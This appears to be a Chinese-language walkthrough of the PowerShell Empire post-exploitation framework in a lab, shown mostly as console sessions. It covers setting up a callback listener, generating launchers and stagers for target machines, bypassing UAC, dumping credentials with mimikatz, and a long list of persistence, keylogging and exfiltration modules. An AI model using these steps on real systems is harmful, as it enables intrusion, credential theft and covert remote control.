



## 0x00 简介


Empire is a PowerShell and Python post-exploitation agent. 

http://www.powershellempire.com/

## 0x01 安装

```
git clone https://github.com/EmpireProject/Empire
cd Empire/setup.sh
./install.sh
```

## 0x02 模块介绍


### Empire Module List

* agents
* creds
* plugins
* stager
* listeners
* module

### listeners

`listeners`的功能是监听一个端口，通过该端口给客户端传递更多的命令和载荷。

### agents

`agents`主要是通过`listeners`获得的主机对象，可以通过`list`查看。

### stager

`stager`主要是用于生成初级载荷，也就是木马，在客户端执行后，客户端会主动连接`listeners`监听的端口，同时服务端的`agents`列表会出现客户端的主机信息。

### module

`module`的主要功能是通过给`agents`提供更多的功能，可通过`searchmodule`搜索。

### plugins 

`plugins`主要用于调用和管理Empire的扩展。


### creds

`creds`是一个存储一些`agents`上获取到的凭证。


## 0x03 Simply use Empire

### 如何获得agents

```
./empire # 启动empire
```




有285个module可以使用，1个listener在使用，0个agents。

```
(Empire) > listeners

[*] Active listeners:

  Name              Module          Host                                 Delay/Jitter   KillDate
  ----              ------          ----                                 ------------   --------
  Hello             http            http://192.168.117.181:80            5/0.0                      

(Empire: listeners) > uselistener 
dbx           http_com      http_hop      meterpreter   redirector    
http          http_foreign  http_mapi     onedrive     
```

创建一个`listeners`：

```
(Empire: listeners) > uselistener http
(Empire: listeners/http) > info

    Name: HTTP[S]
Category: client_server

Authors:
  @harmj0y

Description:
  Starts a http[s] listener (PowerShell or Python) that uses a
  GET/POST approach.

HTTP[S] Options:

  Name              Required    Value                            Description
  ----              --------    -------                          -----------
  SlackToken        False                                        Your SlackBot API token to communicate with your Slack instance.
  ProxyCreds        False       default                          Proxy credentials ([domain\]username:password) to use for request (default, none, or other).
  KillDate          False                                        Date for the listener to exit (MM/dd/yyyy).
  Name              True        Hello                            Name for the listener.
  Launcher          True        powershell -noP -sta -w 1 -enc   Launcher string.
  DefaultDelay      True        5                                Agent delay/reach back interval (in seconds).
  DefaultLostLimit  True        60                               Number of missed checkins before exiting
  WorkingHours      False                                        Hours for the agent to operate (09:00-17:00).
  SlackChannel      False       #general                         The Slack channel or DM that notifications will be sent to.
  DefaultProfile    True        /admin/get.php,/news.php,/login/ Default communication profile for the agent.
                                process.php|Mozilla/5.0 (Windows
                                NT 6.1; WOW64; Trident/7.0;
                                rv:11.0) like Gecko
  Host              True        http://192.168.117.181:80        Hostname/IP for staging.
  CertPath          False                                        Certificate path for https listeners.
  DefaultJitter     True        0.0                              Jitter in agent reachback interval (0.0-1.0).
  Proxy             False       default                          Proxy to use for request (default, none, or other).
  UserAgent         False       default                          User-agent string to use for the staging request (default, none, or other).
  StagingKey        True        riOB0K|+*:3a~R2xQb@;U{&Vth>!4/Gd Staging key for initial agent negotiation.
  BindIP            True        0.0.0.0                          The IP to bind to on the control server.
  Port              True        8089                             Port for the listener.
  ServerVersion     True        Microsoft-IIS/7.5                Server header for the control server.
  StagerURI         False                                        URI for the stager. Must use /download/. Example: /download/stager.php

```

一般情况只需要指定Host、Port、Name即可，其他的选项可以根据场景设置。


```
(Empire: listeners/http) > set Name newListener
(Empire: listeners/http) > set Port 7788
(Empire: listeners/http) > execute
[*] Starting listener 'newListener'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
```

查看`listeners`：

```
(Empire: listeners/http) > listeners

[*] Active listeners:

  Name              Module          Host                                 Delay/Jitter   KillDate
  ----              ------          ----                                 ------------   --------
  Hello             http            http://192.168.117.181:80            5/0.0                      
  newListener       http            http://192.168.117.181:7788            5/0.0                      

```

生成控制命令：

```
launcher powershell newListener
```

在目标主机上执行这条指令后，可以获得一个`agent`。

**listeners中的Port必须和Host的端口相同**



```
(Empire: listeners) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------
 MYZBFLEX ps 192.168.117.179 DESKTOP-7KT7GL1   DESKTOP-7KT7GL1\Rvn0xsy powershell         7256   5/0.0    2018-12-18 02:14:47

(Empire: agents) > 
```

## 0x04 使用模块

### Bypass UAC

常用的有以下模块：

* powershell/privesc/bypassuac
* powershell/privesc/bypassuac_env
* powershell/privesc/bypassuac_eventvwr
* powershell/privesc/bypassuac_fodhelper
* powershell/privesc/bypassuac_sdctlbypass
* powershell/privesc/bypassuac_tokenmanipulation
* powershell/privesc/bypassuac_wscript

也可以直接这么使用：

```
(Empire: agents) > interact MYZBFLEX
(Empire: MYZBFLEX) > bypassuac
```

但是默认的bypassuac是使用的`bypassuac_eventvwr`，这时候就需要调用其他的了
。

```
(Empire: MYZBFLEX) > usemodule privesc/bypassuac_fodhelper 
(Empire: powershell/privesc/bypassuac_fodhelper) > info

              Name: Invoke-FodHelperBypass
            Module: powershell/privesc/bypassuac_fodhelper
        NeedsAdmin: False
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  Petr Medonos

Description:
  Bypasses UAC by performing an registry modification for
  FodHelper (based onhttps://winscripting.blog/2017/05/12
  /first-entry-welcome-and-uac-bypass/)

Comments:
  https://winscripting.blog/2017/05/12/first-entry-welcome-
  and-uac-bypass/

Options:

  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  Listener   True                                  Listener to use.                        
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  Agent      True        MYZBFLEX                  Agent to run module on.                 
  ProxyCreds False       default                   Proxy credentials                       
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      

(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener hello
(Empire: powershell/privesc/bypassuac_fodhelper) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked MYZBFLEX to run TASK_CMD_JOB
[*] Agent MYZBFLEX tasked with task ID 2
[*] Tasked agent MYZBFLEX to run module powershell/privesc/bypassuac_fodhelper
(Empire: powershell/privesc/bypassuac_fodhelper) > [*] Agent MYZBFLEX returned results.
Job started: 9HABCE
[*] Valid results returned by 192.168.117.179
[*] Sending POWERSHELL stager (stage 1) to 192.168.117.179
[*] New agent VZWXYL4T checked in
[+] Initial agent VZWXYL4T from 192.168.117.179 now active (Slack)
[*] Sending agent (stage 2) to VZWXYL4T at 192.168.117.179

```



此时`agents`列表如下：

```
(Empire: powershell/privesc/bypassuac_fodhelper) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------
 MYZBFLEX ps 192.168.117.179 DESKTOP-7KT7GL1   DESKTOP-7KT7GL1\Rvn0xsy powershell         7256   5/0.0    2018-12-18 02:22:26
 VZWXYL4T ps 192.168.117.179 DESKTOP-7KT7GL1   *DESKTOP-7KT7GL1\Rvn0xs powershell         9392   5/0.0    2018-12-18 02:22:26

(Empire: agents) > 

```

计算机名前带有`*`的`agents`才可以使用`*`结尾的模块：

```
Display all 204 possibilities? (y or n)
code_execution/invoke_dllinjection
code_execution/invoke_metasploitpayload
code_execution/invoke_ntsd
code_execution/invoke_reflectivepeinjection
code_execution/invoke_shellcode
code_execution/invoke_shellcodemsil
collection/ChromeDump
collection/FoxDump
collection/USBKeylogger*
collection/WebcamRecorder
collection/browser_data
collection/clipboard_monitor
collection/file_finder
collection/find_interesting_file
collection/get_indexed_item
collection/get_sql_column_sample_data
collection/get_sql_query
collection/inveigh
collection/keylogger
collection/minidump
collection/netripper
collection/ninjacopy*
collection/packet_capture*
collection/prompt
collection/screenshot
collection/vaults/add_keepass_config_trigger
collection/vaults/find_keepass_config
collection/vaults/get_keepass_config_trigger
collection/vaults/keethief
collection/vaults/remove_keepass_config_trigger
credentials/credential_injection*
credentials/enum_cred_store
credentials/invoke_kerberoast
credentials/mimikatz/cache*
credentials/mimikatz/certs*
credentials/mimikatz/command*
credentials/mimikatz/dcsync
credentials/mimikatz/dcsync_hashdump
credentials/mimikatz/extract_tickets
credentials/mimikatz/golden_ticket
credentials/mimikatz/keys*
credentials/mimikatz/logonpasswords*
credentials/mimikatz/lsadump*
credentials/mimikatz/mimitokens*
credentials/mimikatz/pth*
credentials/mimikatz/purge
credentials/mimikatz/sam*
credentials/mimikatz/silver_ticket
credentials/mimikatz/trust_keys*
credentials/powerdump*
credentials/sessiongopher
credentials/tokens
credentials/vault_credential*
exfiltration/egresscheck
exfiltration/exfil_dropbox
exploitation/exploit_eternalblue
exploitation/exploit_jboss
exploitation/exploit_jenkins
lateral_movement/inveigh_relay
lateral_movement/invoke_dcom
lateral_movement/invoke_executemsbuild
lateral_movement/invoke_psexec
lateral_movement/invoke_psremoting
lateral_movement/invoke_smbexec
lateral_movement/invoke_sqloscmd
lateral_movement/invoke_sshcommand
lateral_movement/invoke_wmi
lateral_movement/invoke_wmi_debugger
lateral_movement/jenkins_script_console
lateral_movement/new_gpo_immediate_task
management/disable_rdp*
management/downgrade_account
management/enable_multi_rdp*
management/enable_rdp*
management/get_domain_sid
management/honeyhash*
management/invoke_script
management/lock
management/logoff
management/mailraider/disable_security
management/mailraider/get_emailitems
management/mailraider/get_subfolders
management/mailraider/mail_search
management/mailraider/search_gal
management/mailraider/send_mail
management/mailraider/view_email
management/psinject
management/reflective_inject
management/restart
management/runas
management/shinject
management/sid_to_user
management/spawn
management/spawnas
management/switch_listener
management/timestomp
management/user_to_sid
management/vnc
management/wdigest_downgrade*
management/zipfolder
persistence/elevated/registry*
persistence/elevated/schtasks*
persistence/elevated/wmi*
persistence/elevated/wmi_updater*
persistence/misc/add_netuser
persistence/misc/add_sid_history*
persistence/misc/debugger*
persistence/misc/disable_machine_acct_change*
persistence/misc/get_ssps
persistence/misc/install_ssp*
persistence/misc/memssp*
persistence/misc/skeleton_key*
persistence/powerbreach/deaduser
persistence/powerbreach/eventlog*
persistence/powerbreach/resolver
persistence/userland/backdoor_lnk
persistence/userland/registry
persistence/userland/schtasks
privesc/ask
privesc/bypassuac
privesc/bypassuac_env
privesc/bypassuac_eventvwr
privesc/bypassuac_fodhelper
privesc/bypassuac_sdctlbypass
privesc/bypassuac_tokenmanipulation
privesc/bypassuac_wscript
privesc/getsystem*
privesc/gpp
privesc/mcafee_sitelist
privesc/ms16-032
privesc/ms16-135
privesc/powerup/allchecks
privesc/powerup/find_dllhijack
privesc/powerup/service_exe_restore
privesc/powerup/service_exe_stager
privesc/powerup/service_exe_useradd
privesc/powerup/service_stager
privesc/powerup/service_useradd
privesc/powerup/write_dllhijacker
privesc/tater
recon/find_fruit
recon/get_sql_server_login_default_pw
recon/http_login
situational_awareness/host/antivirusproduct
situational_awareness/host/computerdetails*
situational_awareness/host/dnsserver
situational_awareness/host/findtrusteddocuments
situational_awareness/host/get_pathacl
situational_awareness/host/get_proxy
situational_awareness/host/get_uaclevel
situational_awareness/host/monitortcpconnections
situational_awareness/host/paranoia*
situational_awareness/host/winenum
situational_awareness/network/arpscan
situational_awareness/network/bloodhound
situational_awareness/network/get_exploitable_system
situational_awareness/network/get_spn
situational_awareness/network/get_sql_instance_domain
situational_awareness/network/get_sql_server_info
situational_awareness/network/portscan
situational_awareness/network/powerview/find_foreign_group
situational_awareness/network/powerview/find_foreign_user
situational_awareness/network/powerview/find_gpo_computer_admin
situational_awareness/network/powerview/find_gpo_location
situational_awareness/network/powerview/find_localadmin_access
situational_awareness/network/powerview/find_managed_security_group
situational_awareness/network/powerview/get_cached_rdpconnection
situational_awareness/network/powerview/get_computer
situational_awareness/network/powerview/get_dfs_share
situational_awareness/network/powerview/get_domain_controller
situational_awareness/network/powerview/get_domain_policy
situational_awareness/network/powerview/get_domain_trust
situational_awareness/network/powerview/get_fileserver
situational_awareness/network/powerview/get_forest
situational_awareness/network/powerview/get_forest_domain
situational_awareness/network/powerview/get_gpo
situational_awareness/network/powerview/get_group
situational_awareness/network/powerview/get_group_member
situational_awareness/network/powerview/get_localgroup
situational_awareness/network/powerview/get_loggedon
situational_awareness/network/powerview/get_object_acl
situational_awareness/network/powerview/get_ou
situational_awareness/network/powerview/get_rdp_session
situational_awareness/network/powerview/get_session
situational_awareness/network/powerview/get_site
situational_awareness/network/powerview/get_subnet
situational_awareness/network/powerview/get_user
situational_awareness/network/powerview/map_domain_trust
situational_awareness/network/powerview/process_hunter
situational_awareness/network/powerview/set_ad_object
situational_awareness/network/powerview/share_finder
situational_awareness/network/powerview/user_hunter
situational_awareness/network/reverse_dns
situational_awareness/network/smbautobrute
situational_awareness/network/smbscanner
trollsploit/get_schwifty
trollsploit/message
trollsploit/process_killer
trollsploit/rick_ascii
trollsploit/rick_astley
trollsploit/thunderstruck
trollsploit/voicetroll
trollsploit/wallpaper
trollsploit/wlmdr
```

### 抓取密码

可在agents中直接调用mimikatz：

```
(Empire: VZWXYL4T) > mimikatz
[*] Tasked VZWXYL4T to run TASK_CMD_JOB
[*] Agent VZWXYL4T tasked with task ID 1
[*] Tasked agent VZWXYL4T to run module powershell/credentials/mimikatz/logonpasswords
(Empire: VZWXYL4T) > [*] Agent VZWXYL4T returned results.
Job started: EV7DPF
[*] Valid results returned by 192.168.117.179

```

默认是：powershell/credentials/mimikatz/logonpasswords

也可以使用usemodule指定以下模块：

```
credentials/credential_injection*
credentials/enum_cred_store
credentials/invoke_kerberoast
credentials/mimikatz/cache*
credentials/mimikatz/certs*
credentials/mimikatz/command*
credentials/mimikatz/dcsync
credentials/mimikatz/dcsync_hashdump
credentials/mimikatz/extract_tickets
credentials/mimikatz/golden_ticket
credentials/mimikatz/keys*
credentials/mimikatz/logonpasswords*
credentials/mimikatz/lsadump*
credentials/mimikatz/mimitokens*
credentials/mimikatz/pth*
credentials/mimikatz/purge
credentials/mimikatz/sam*
credentials/mimikatz/silver_ticket
credentials/mimikatz/trust_keys*
credentials/powerdump*
credentials/sessiongopher
credentials/tokens
credentials/vault_credential*
```
### 提权

```
usemodule privesc/powerup/allchecks
execute
```

## 0x05 生成stager

```
(Empire) > usestager 
multi/bash                osx/macho                 windows/launcher_bat
multi/launcher            osx/macro                 windows/launcher_lnk
multi/macro               osx/pkg                   windows/launcher_sct
multi/pyinstaller         osx/safari_launcher       windows/launcher_vbs
multi/war                 osx/teensy                windows/launcher_xml
osx/applescript           windows/backdoorLnkMacro  windows/macro
osx/application           windows/bunny             windows/macroless_msword
osx/ducky                 windows/csharp_exe        windows/shellcode
osx/dylib                 windows/dll               windows/teensy
osx/jar                   windows/ducky             
osx/launcher              windows/hta             
```

生成一个bat的：


```
usestager windows/launcher_bat
set Listener hello
execute
```


将bat文件在目标主机上运行即可。

一般情况下，生成的都是powershell指令，只是引入方式有许多种。
